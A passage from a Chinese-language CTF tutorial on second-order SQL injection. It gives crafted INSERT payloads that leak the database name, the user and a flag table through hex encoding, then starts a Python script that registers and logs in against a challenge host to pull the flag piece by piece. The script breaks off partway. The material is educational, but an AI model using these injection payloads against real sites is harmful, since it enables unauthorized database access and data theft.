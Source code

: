 ```python

if __name__ == '__main__':
    main()
```

### 二次注入

通常二次注入的成因会是插入语句，我们控制自己想要查询的语句插入到数据库中再去找一个**能显示插入数据的回显的地方**（可能是登陆后的用户名等等、也有可能是删除后显示删除内容的地方~），恶意插入查询语句的示例如下：

```sql
insert into users(id,username,password,email) values(1,'0'+hex(database())+'0','0'+hex(hex(user()))+'0','123@qq.com')

insert into users(id,username,password,email) values(1,'0'+substr((select hex(hex(select * from flag))),1,10)+'0','123456','123@qq.com')
```

需要对后端的SQL语句有一个猜测

这里还有一个点，我们不能直接将要查询的函数插入，因为如果直接插入的话，`'database()'`会被识别为字符串，我们需要想办法闭合前后单引号的同时将我们的查询插入，就出现了`'0'+database()+'0'`这样的构造，但是这个的回显是`0`，但是在我们进行了hex编码之后就能正常的查询了，也就是上面出现的`'0'+hex(database())+'0'`

#### 注入流程

首先找到插入点，通常情况下是一个注册页面，`register.php`这种，先简单的查看一下注册后有没有什么注册时写入的信息在之后又回显的，若有回显猜测为二次查询。

```sql
insert into users(id,username,password,email) values(1,'0'+hex(database())+'0','0'+hex(hex(user()))+'0','123@qq.com')

insert into users(id,username,password,email) values(1,'0'+substr((select hex(hex(select * from flag))),1,10)+'0','123456','123@qq.com')
```

构造类似于values中的参数进行注册等操作，然后进行查看，将hex编码解码即可，可能会有其他的先限制，比如超过10位就会转化为科学计数法，我们就需要使用`from for`语句来进行一个限制，可以编写脚本。

```python
import requests
import string
import re as r
import time
ch = string.ascii_lowercase+string.digits+'-}'+'{'

re = requests.session()
url = 'http://9a88c359-4f55-44e9-9332-4c635c486ef0.node3.buuoj.cn/'

def register(email,username):
    url1 = url+'register.php'
    data = dict(email = email, username = username,password = '123')
    html = re.post(url1,data=data)
    html.encoding = 'utf-8'
    return html

def login(email):
    url2 = url+'login.php'
    data = dict(email = email,password = '123')
    html = re.post(url2, data=data)
    html.encoding = 'utf-8'
    return html


hex_flag = ''
for j in range(0,17):
    payload = "0'+(select substr(hex(hex((select * from flag))) from {} for {}))+'0".format(int(j)*10+1,10)
```